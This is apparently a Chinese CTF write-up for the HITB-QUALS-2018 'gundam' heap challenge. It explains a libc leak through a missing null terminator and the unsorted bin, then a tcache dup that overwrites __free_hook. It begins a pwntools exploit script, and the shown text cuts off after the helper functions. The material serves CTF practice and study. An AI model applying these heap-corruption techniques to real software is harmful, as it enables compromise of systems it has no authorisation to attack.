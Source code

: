 ```python
#debug()
```

---

## HITB-QUALS-2018 gundam

checksec:

![5cb81111ea773](https://i.loli.net/2019/04/18/5cb81111ea773.png)

main:

![5cb8117739a2b](https://i.loli.net/2019/04/18/5cb8117739a2b.png)

add:

![5cb8119acd11c](https://i.loli.net/2019/04/18/5cb8119acd11c.png)

最多添加9个gundam，添加时会先添加gundam头，其中包含gundam是否被删除，指向gundam内容的指针，gundam类型。gundam头与ptr的内容如下图：

![5cb81225e2e32](https://i.loli.net/2019/04/18/5cb81225e2e32.png)

![5cb8122cdf931](https://i.loli.net/2019/04/18/5cb8122cdf931.png)

delone:

![5cb813220f4aa](https://i.loli.net/2019/04/18/5cb813220f4aa.png)

delall:

![5cb8134b37dd0](https://i.loli.net/2019/04/18/5cb8134b37dd0.png)

show:

![5cb8137891192](https://i.loli.net/2019/04/18/5cb8137891192.png)

add时并没有在输入结尾加\x00，因此可以通过unsorted bin泄露libc。

再利用tcache dup覆写freehook。

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月06日 星期六 00时11分48秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./gundam')#,env={'LD_PRELOAD':'./libc.so.6'})
#io = process('./gundam')
libc = ELF('./libc.so.6')
context.log_level = 'debug'
#context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
    gdb.attach(io)
    io.interactive()
def build(name,typ=1):
    io.sendafter(': ','1')
    io.sendlineafter(':',name)
    io.sendlineafter(' :',str(typ))

```